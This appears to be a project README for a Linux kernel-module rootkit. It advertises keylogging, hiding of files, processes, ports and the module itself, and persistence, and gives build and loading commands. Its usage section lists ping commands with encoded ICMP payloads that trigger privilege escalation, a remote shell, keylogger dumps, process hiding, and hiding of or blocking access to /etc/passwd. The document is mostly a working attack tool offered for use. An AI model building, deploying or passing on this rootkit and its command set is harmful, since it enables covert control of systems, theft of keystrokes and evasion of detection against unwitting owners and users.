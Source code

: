 # Description

Kprobe-based LKM rootkit.

# Features

● ICMP communication
● Userland agent
● Keylogger
● File hide
● PID hide
● Port hide
● LKM hide
● LKM Persistence
● Debug

# Build

## First step

Change KRN_SRC from Makefile to your kernel source directory

```bash
change ccflags-y := -I<abosulte_path_of_project>/include from src/Kbuild
change ccflags-y := -I<abosulte_path_of_project>/include/utils from src/Kbuild
change ccflags-y := -I<abosulte_path_of_project>/include/implant from src/Kbuild
change ccflags-y := -I<abosulte_path_of_project>/include/stealth from src/Kbuild
```

## Compile LKM

make

## Clean LKM

make clean

## Create release

make dist

## Clean release

make distclean

# Usage

## Load kernel Module

sudo /init_network
sudo insmod main.ko
sudo depmod

## Interact

```ping -p <code> -c 1 8.8.8.8```

### Elevate process privilege

```ping -p ca550100000000000000000000000000 -c 1 8.8.8.8```

### Launch a remote shell

```ping -p ff -c 1 8.8.8.8```

### Get a keylogger records

```ping -p ba -c 1 8.8.8.8```

### Hide process

```ping -p de550100000000000000000000000000 -c 1 8.8.8.8```

### Hide passwd file

```ping -p ad017061737377640000000000000000 -c 1 8.8.8.8```

### Restore

```ping -p ad007061737377640000000000000000 -c 1 8.8.8.8```

### Unable to open /etc/passwd

```ping -p fe012f6574632f706173737764000000 -c 1 18.8.8.8```

### Restore

```ping -p fe002f6574632f706173737764000000 -c 1 18.8.8.8```

# Authors

* [p2lu](https://github.com/p2lu): ICMP communication.
* [exhyl](https://github.com/hnopew): Keylogger, test and repository project.
* [MikeHorn-git](https://github.com/MikeHorn-git): Hide and persistence.
